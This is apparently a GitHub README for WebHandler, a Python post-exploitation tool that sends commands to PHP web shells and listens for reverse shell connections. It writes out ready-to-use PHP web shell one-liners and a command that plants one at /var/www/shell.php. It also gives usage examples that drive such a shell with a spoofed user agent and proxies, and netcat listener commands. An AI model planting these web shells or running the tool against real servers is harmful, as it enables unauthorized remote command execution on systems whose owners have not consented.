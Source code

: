 ## WebHandler ##
_A hanlder for PHP system functions & alternative 'netcat listener'_
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and  process:
    - PHP _program execution functions_ (e.g. `system`, `passthru`, `exec`, etc)
    - Reserve shell connections (e.g. `nc -lvvp 1234`)

Another feature is to spoof "User-Agent" in the HTTP header. (--random-angent)
It also supports HTTP proxies (proxy http://<ip>:<port>

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

* WebHandler is a replacement for netcat with a reverse connection:
    - `netcat -l -p 1234`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests (e.g. a bind 'web based PHP' connection):
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection (e.g. a reverse 'raw' connection):
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
